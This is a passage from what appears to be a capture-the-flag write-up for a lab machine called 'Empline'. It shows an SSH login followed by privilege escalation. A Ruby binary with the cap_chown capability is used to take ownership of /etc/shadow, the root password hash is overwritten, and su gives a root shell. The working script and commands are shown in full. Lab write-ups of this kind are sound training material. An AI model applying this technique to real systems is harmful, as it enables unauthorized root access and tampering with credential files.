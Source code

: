 ```console
┌──(kali㉿kali)-[~/Documents/tthm/empline]
└─$ ssh george@10.10.233.35    
george@10.10.233.35's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-147-generic x86_64)
...snip...
george@empline:~$ id
uid=1002(george) gid=1002(george) groups=1002(george)
```

The user flag is at `/home/george/user.txt`

## 5. privesc - linpeas, capabilities

During our usual manual privesc enumeration checks (users, processes, services, cronjobs, SUID/SGID binaries, etc.) we discover the following unusual configuration by running `getcap` : 

```console
george@empline:/home$ getcap / -r 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
```
Capabilities are intended to provide a more granular approach to permissions in UNIX environments, allowing admins to assign elevated actions to scripts, binaries or processes without granting them full privileges associated with a group or user. For example, the CAP_CHOWN capability seen here allows `/usr/local/bin/ruby` to run `chown` on any other file on the system, but provides no other superuser / root level privileges. Using this CAP_CHOWN capability we can change the owner of files responsible for user and permissions configuration - most obviously `/etc/shadow` or `/etc/passwd` - and modify their content to provide a privesc opportunity.

In this case, we need a ruby script that is capable of calling `chown`. A google search for 'ruby chown' allows us to write the following script : 

```rb
require 'fileutils'
FileUtils.chown 'george', 'george', '/etc/shadow'
```

which we run with the discovered `/usr/local/bin/ruby` binary to make george the owner of `/etc/shadow` :

```console
george@empline:~$ /usr/local/bin/ruby exp.rb 
george@empline:~$ ls -la /etc/shadow
-rw-r----- 1 george george 1081 Jul 20 19:48 /etc/shadow
```

Given that we already know the george user's password, we can simply replace the root user's password hash with george's own password hash :

```console
george@empline:~$ vim /etc/shadow
george@empline:~$ cat /etc/shadow
root:$6$hvNAbVRK$xSiRR/fV0avpUrhnTq72LqFygy7RDgicbojr2CZeQHKqAHscFlMEy2RJTCkuTme32OPJ3TiX1xBpv7LmZqnnc1:18828:0:99999:7:::
...snip...
george:$6$hvNAbVRK$xSiRR/fV0avpUrhnTq72LqFygy7RDgicbojr2CZeQHKqAHscFlMEy2RJTCkuTme32OPJ3TiX1xBpv7LmZqnnc1:18828:0:99999:7:::
```

and su to root :

```console
george@empline:~$ su root
Password: 
root@empline:/home/george# id
uid=0(root) gid=0(root) groups=0(root)
```

The root flag is at `/root/root.txt`.
